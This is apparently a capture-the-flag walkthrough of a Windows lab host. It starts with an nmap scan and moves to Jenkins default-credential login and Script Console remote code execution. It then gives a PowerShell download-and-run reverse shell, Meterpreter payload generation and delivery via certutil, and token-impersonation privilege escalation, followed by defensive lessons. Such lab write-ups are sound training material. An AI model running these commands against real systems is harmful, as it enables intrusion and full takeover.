







  # Enumeration
Using *nmap* to discover ports and services that run on it 
```bash
sudo nmap -p- -Pn -T4 -A 10.130.136.198 -oN result.txt
```
**Result**
```
sudo: unable to resolve host ip-10-130-105-83: Name or service not known
Starting Nmap 7.80 ( https://nmap.org ) at 2026-04-12 12:03 BST
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Stats: 0:00:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.55% done
Stats: 0:00:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.61% done
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 1.54% done; ETC: 12:08 (0:04:15 remaining)
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 1.97% done; ETC: 12:08 (0:04:08 remaining)
Nmap scan report for 10.130.136.198
Host is up (0.00078s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2026-04-12T11:05:45+00:00; -1s from scanner time.
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8 (90%), Microsoft Windows 7 SP1 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows 8.1 R1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 or 2008 Beta 3 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s

TRACEROUTE (using port 8080/tcp)
HOP RTT     ADDRESS
1   0.90 ms 10.130.136.198
```

> **Note**: There is an open port on `tcp/8080` running an HTTP server with version `Jetty(9.4.z-SNAPSHOT)`. After probing, we found it's a Jenkins instance. Trying default credentials `admin:admin` worked 

---

# Initial Access - Jenkins RCE

After logging in, we need a way to execute remote commands. Jenkins Script Console allows us to run Groovy code on the server, which we can abuse for RCE.

**Steps:**
1. Navigate to **Manage Jenkins** → **Script Console**


2. Prepare the reverse shell payload. Download [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) from Nishang framework onto your attacker machine.

3. Host the script via HTTP and start a listener:
```bash
# On attacker machine (10.130.105.83)
python3 -m http.server 9090 -d /path/to/nishang/Shells/
nc -lnvp 9999
```

4. Paste this payload into Jenkins Script Console:
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.130.105.83:9090/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.130.105.83 -Port 9999
```



5. Save and run the script → catch the reverse shell:
[4](../../images/alf-4_clean.png)

Now we have a shell inside the server.


## Flag


---

# Switching Shell

The PowerShell reverse shell works but isn't stable. Let's upgrade to a *Metasploit Meterpreter* session for better reliability and post-exploitation features.

### Generate Payload with msfvenom
```bash
attacker$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.130.76.206 LPORT=8888 -f exe -o exp.exe
```

### Setup Metasploit Handler
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.130.76.206
set LPORT 8888
exploit -j
```
***Don't forget to change payload to `windows/meterpreter/reverse_tcp`***

### Download & Execute on Target
From our existing shell, download and run the payload:
```powershell
# Option 1: Via PowerShell
powershell -c "Invoke-WebRequest -Uri 'http://10.130.76.206:8000/exp.exe' -OutFile 'C:\Users\Public\exp.exe'; Start-Process 'C:\Users\Public\exp.exe'"

# Option 2: Via certutil (if PowerShell restricted)
certutil -urlcache -split -f http://10.130.76.206:8000/exp.exe C:\Users\Public\exp.exe && C:\Users\Public\exp.exe
```

Catch the session in Metasploit:



---

# Privilege Escalation

## Enumeration
Check current user privileges:
```powershell
whoami /priv
```
Output shows:
```
SeImpersonatePrivilege          Impersonate a client after authentication    Enabled
```
This is a classic privilege escalation vector (Potato family exploits / token impersonation).

## Token Impersonation via Incognito
In Meterpreter:
```bash
# Load incognito module
load incognito

# List available tokens
list_tokens -g
```
Found: `BUILTIN\Administrators` — a high-privilege token we can impersonate.

```bash
# Impersonate the admin token
impersonate_token "BUILTIN\Administrators"
```


## Migrate & Get SYSTEM Shell
To stabilize and ensure full privileges, migrate to a system-owned process:
```bash
# List processes
ps

# Migrate to services.exe (PID may vary, e.g., 668)
migrate 668

# Drop to shell
shell
```

## Retrieve Root Flag
```cmd
type C:\Windows\System32\config\root.txt
```
---
**Lessons**:  
- Never leave default credentials on admin interfaces  
- Jenkins Script Console = code execution → restrict access  
- `SeImpersonatePrivilege` on Windows = potential privilege escalation  
- Always enumerate tokens after getting a foothold on Windows
